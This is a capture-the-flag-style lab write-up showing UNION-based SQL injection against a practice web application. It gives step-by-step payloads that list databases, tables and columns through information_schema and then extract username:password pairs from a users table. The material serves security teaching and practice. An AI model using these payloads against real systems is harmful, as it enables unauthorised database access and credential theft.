

# SQL injection UNION attack, retrieving data from other tables

**Level:** <mark style="color:blue;">**Practitioner**</mark>

<figure><figcaption></figcaption></figure>

* In this lab I will be showing how to get columns, tables and databases using a union-based attack.

<figure><figcaption></figcaption></figure>

* First, we need to know the number of columns that are in the table that we are using.
* You can do this as is in the following image, or you can use **order by** either.

<figure><figcaption></figcaption></figure>

* To get all the databases name, use the following payload.
* **' Union select schema\_name,NULL from information\_schema.schemata-- -**

**In a simple break down in this expression this is what it means:**

* Information\_schema.**schemata** - list me the DB names.
* **schema**\_name - get me back the DB names.

<figure><figcaption></figcaption></figure>

* Now that we know the DB name that we want, we need to get the names of the tables.
* Use the following payload to retrieve the name of the tables.
* **' Union select table\_name,NULL from information\_schema.tables where table\_schema = 'DB\_NAME' -- -**

**Breakdown**

* information\_schema**.tables** - list me all the tables.
* **table\_name** - get me back the name of the tables.
* **table\_schema** - name of the database we want to use.

<figure><figcaption></figcaption></figure>

* Now we use the following payload to get the columns of the table that we want.
* **' Union select column\_name,NULL from information\_schema.columns where table\_name = 'TABLE\_NAME' -- -**

**Breakdown**

* column\_name   - get me the names of the columns.
* information\_schema.columns - list me all the columns.
* table\_name - this is to select the table that we want to get info.

<figure><figcaption></figcaption></figure>

* Now that we know the columns that we want to extract data, I like to use the following.
* **' Union select NULL,username||':'||password from users -- -**

**Breakdown**

* username||':'||password - this to represent the data in a better way.

**\*Important\***

If you don't understand the SQL logic and the way on how to write one, I recommend to practice in a virtual lab where you make the DB and break it by yourself.
